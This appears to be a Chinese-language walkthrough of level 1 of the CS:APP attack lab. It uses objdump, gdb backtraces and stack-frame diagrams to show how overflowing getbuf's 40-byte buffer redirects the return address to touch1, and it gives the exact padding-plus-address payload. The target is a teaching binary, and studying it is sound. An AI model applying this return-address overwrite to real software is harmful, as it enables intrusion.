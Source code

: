 # 要求

要求就是使用缓冲区溢出的漏洞，进行 code injection(CI) 攻击。

我们使用 objdump 来生成完整的 ctarget 反汇编代码
```shell
objdump -d ctarget > ctarget.asm
```

## 重要文件说明


- `exploit1.txt` 为我们输入的注入代码。需要使用 hex2raw 转换为机器字节顺序
- `ctarget` 是 code injection 执行文件

## 解题过程

![image](https://user-images.githubusercontent.com/9459488/147568993-812832c1-1a92-480b-b810-73415024105f.png)


其核心在于，当 P 调用 call Q 指令时，会把 P 的下一条指令地址压栈。当 Q 执行完 ret 时，会取刚刚压入的地址，作为 rip(PC) 指向的地址。

所以该题的核心就是替换掉 P 指令地址为 Q。

即：使用 touch1 函数开始的指令地址替换 test 函数中 getbuf 的下一条指令地址。

```shell
# 执行 ctarget，不连接服务器
r -q

# 打断点
b test
b getbuf

# 显示汇编视图
layout asm
```


以下是关键函数的摘抄

**test**
```nasm
0x401968 <test>         sub    $0x8,%rsp
0x40196c <test+4>       mov    $0x0,%eax
0x401971 <test+9>       callq  0x4017a8 <getbuf>
0x401976 <test+14>      mov    %eax,%edx
0x401978 <test+16>      mov    $0x403188,%esi # x/s $rsi 输出 "No exploit.  Getbuf returned 0x%x\n"
0x40197d <test+21>      mov    $0x1,%edi
0x401982 <test+26>      mov    $0x0,%eax
0x401987 <test+31>      callq  0x400df0 <__printf_chk@plt>
0x40198c <test+36>      add    $0x8,%rsp
0x401990 <test+40>      retq
```

**getbuf**
```nasm
0x4017a8 <getbuf>       sub    $0x28,%rsp
0x4017ac <getbuf+4>     mov    %rsp,%rdi
0x4017af <getbuf+7>     callq  0x401a40 <Gets>
0x4017b4 <getbuf+12>    mov    $0x1,%eax
0x4017b9 <getbuf+17>    add    $0x28,%rsp
0x4017bd <getbuf+21>    retq
0x4017be                nop
0x4017bf                nop
0x4017c0 <touch1>       sub    $0x8,%rsp
0x4017c4 <touch1+4>     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
0x4017ce <touch1+14>    mov    $0x4030c5,%edi
0x4017d3 <touch1+19>    callq  0x400cc0 <puts@plt>
0x4017d8 <touch1+24>    mov    $0x1,%edi
0x4017dd <touch1+29>    callq  0x401c8d <validate>
0x4017e2 <touch1+34>    mov    $0x0,%edi
0x4017e7 <touch1+39>    callq  0x400e40 <exit@plt>
```

getbuf 的 backtrace 信息，我们看到 `saved rip = 0x401976`，这里 `0x401976` 指向的是 test 函数中，call getbuf 的下一条指令地址。

__同时，也是我们期望覆盖的指令地址（我们希望用 touch1 的指令地址 `0x4017c0` 覆盖原来 test 的指令地址 `0x401976`）。__

我们看到 getbuf 开始就开辟了 0x28 的函数栈帧( getbuf's stack frame )。
而上一个函数过程 test 的栈帧的最后一部分，是放着返回地址的。

![image](https://user-images.githubusercontent.com/9459488/147568993-812832c1-1a92-480b-b810-73415024105f.png)

所以我们填充完 getbuf 开辟的地址，把 touch1 的写入到 “返回地址” 里即可。


```nasm
0x4017a8 <getbuf>       sub    $0x28,%rsp
0x4017ac <getbuf+4>     mov    %rsp,%rdi
0x4017af <getbuf+7>     callq  0x401a40 <Gets>
0x4017b4 <getbuf+12>    mov    $0x1,%eax
0x4017b9 <getbuf+17>    add    $0x28,%rsp
0x4017bd <getbuf+21>    retq
```

以下是栈帧的空间分布，注意 Q 执行完成后返回的地址在 P 的栈顶

![image](https://user-images.githubusercontent.com/9459488/147569984-1244bf6c-32f8-49b2-b2bf-db3675a9b463.png)



## 验证

```shell
➜  target1 git:(main) ✗ ./hex2raw < exploit1.txt > raw1.txt


➜  target1 git:(main) ✗ ./ctarget -q -i raw1.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA C0 17 40 00 00 00 00 00
```



## 附录

使用 backtrace 来跟踪函数栈

break _IO_getc@plt ()
```text
(gdb) backtrace
#0  0x0000000000400dc0 in _IO_getc@plt ()
#1  0x0000000000401a73 in Gets (dest=dest@entry=0x5561dc78 "") at support.c:169
#2  0x00000000004017b4 in getbuf () at buf.c:14
#3  0x0000000000401976 in test () at visible.c:92
#4  0x0000000000401f24 in launch (offset=<optimized out>) at support.c:295
#5  0x0000000000401ffa in stable_launch (offset=<optimized out>) at support.c:340
Backtrace stopped: Cannot access memory at address 0x55686000


#0  0x0000000000400dc0 in _IO_getc@plt ()
(gdb) select-frame 0
(gdb) i f
Stack level 0, frame at 0x5561dc58:
 rip = 0x400dc0 in _IO_getc@plt; saved rip = 0x401a73
 called by frame at 0x5561dc78
 Arglist at 0x5561dc48, args:
 Locals at 0x5561dc48, Previous frame's sp is 0x5561dc58
 Saved registers:
  rip at 0x5561dc50


#1  0x0000000000401a73 in Gets (dest=dest@entry=0x5561dc78 "") at support.c:169 
(gdb) select-frame 1
(gdb) i f
Stack level 1, frame at 0x5561dc78:
 rip = 0x401a73 in Gets (support.c:169); saved rip = 0x4017b4
 called by frame at 0x5561dca8, caller of frame at 0x5561dc58
 source language c.
 Arglist at 0x5561dc50, args: dest=dest@entry=0x5561dc78 ""
 Locals at 0x5561dc50, Previous frame's sp is 0x5561dc78
 Saved registers:
  rbx at 0x5561dc58, rbp at 0x5561dc60, r12 at 0x5561dc68, rip at 0x5561dc70


#2  0x00000000004017b4 in getbuf () at buf.c:14
(gdb) select-frame 2
(gdb) i f
Stack level 2, frame at 0x5561dca8:
 rip = 0x4017b4 in getbuf (buf.c:14); saved rip = 0x401976
 called by frame at 0x5561dcb8, caller of frame at 0x5561dc78
 source language c.
 Arglist at 0x5561dc70, args:
 Locals at 0x5561dc70, Previous frame's sp is 0x5561dca8
 Saved registers:
  rip at 0x5561dca0


#3  0x0000000000401976 in test () at visible.c:92
(gdb) select-frame 3
(gdb) i f
Stack level 3, frame at 0x5561dcb8:
 rip = 0x401976 in test (visible.c:92); saved rip = 0x401f24
 called by frame at 0x55685ff8, caller of frame at 0x5561dca8
 source language c.
 Arglist at 0x5561dca0, args:
 Locals at 0x5561dca0, Previous frame's sp is 0x5561dcb8
 Saved registers:
  rip at 0x5561dcb0
(gdb)
```

回归到内存分布上，我们知道代码段在低位，栈在高位。结合本示例，得到

- 0x401976 类似的是 rip(pc指针) 指向的位置，即代码位置
- 0x5561dca8 类似的高位地址表示的是栈位置，即 rsp 指向的位置
  > rbx rbp r12~r15 是被调用者保存 callee saved 寄存器
